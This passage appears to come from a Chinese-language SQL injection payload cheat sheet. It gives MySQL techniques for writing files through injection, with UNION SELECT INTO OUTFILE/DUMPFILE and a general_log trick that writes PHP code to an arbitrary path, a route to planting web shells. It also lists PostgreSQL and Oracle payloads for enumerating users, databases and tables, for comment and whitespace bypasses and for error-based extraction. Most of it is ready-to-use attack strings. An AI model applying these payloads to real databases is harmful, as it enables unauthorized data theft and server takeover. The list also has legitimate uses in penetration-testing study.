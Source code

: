 ##### 2. 写文件
###### 1. 写文件前提
- root权限
- 知晓文件绝对路径
- 写入的路径存在写入权限
- secure_file_priv 允许向对应位置写入
- `select count(file_priv) from mysql.user`

###### 2. 基于into写文件
```sql
union select 1,1,1 into outfile '/tmp/demo.txt'
union select 1,1,1 into dumpfile '/tmp/demo.txt'
```
dumpfile和outfile不同在于，outfile会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏

###### 3. 基于log写文件
```sql
show variables like '%general%';
set global general_log = on;
set global general_log_file = '/path/to/file';
select '<?php var_dump("test");?>';
set global general_log_file = '/original/path';
set global general_log = off;
```
#### 3. PostgressSQL payload
- Version
  - `SELECT version()`
- Comment
  - `SELECT 1 -- comment`
  - `SELECT /*comment*/1`
- Current User
  - `SELECT user`
  - `SELECT current_user`
  - `SELECT session_user`
  - `SELECT getpgusername()`
- List User
  - `SELECT usename FROM pg_user`
- Current Database
  - `SELECT current_database()`
- List Database
  - `SELECT datname FROM pg_database`
- Ascii
  - `SELECT char(0x41)`
  - `SELECT ascii('A')`
- Delay
  - `pg_sleep(1)`

#### 4. Oracle Payload
##### 1. 常见Payload
- dump
  - `select * from v$tablespace;`
  - `select * from user_tables;`
  - `select column_name from user_tab_columns where table_name = 'table_name';`
  - `select column_name, data_type from user_tab_columns where table_name = 'table_name';`
  - `SELECT * FROM ALL_TABLES`
- Comment
  - `--`
  - `/**/`
- Space
  - `0x00` `0x09` `0xa-0xd` `0x20`
- 报错
  - `utl_inaddr.get_host_name`
  - `ctxsys.drithsx.sn`
  - `ctxsys.CTX_REPORT.TOKEN_TYPE`